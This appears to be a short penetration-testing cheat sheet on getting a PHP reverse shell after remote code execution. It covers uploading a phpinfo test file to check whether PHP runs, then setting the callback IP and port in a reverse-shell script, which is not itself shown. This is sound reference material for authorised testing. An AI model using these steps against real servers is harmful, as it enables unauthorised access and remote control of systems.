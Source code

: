 # Once RCE is achieved

### Conditions to use: 

1. Target machine can execute PHP code via vulnerable application
2. If we can upload a file, then navigate to that file to execute

#### Ways to test conditions: 

Upload `<?php phpinfo(); ?>` to the uploadable location and navigate to the file.

If the code executes, we are golden for a php reverse shell.

#### Configure the following lines in the script: 


```
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS

```
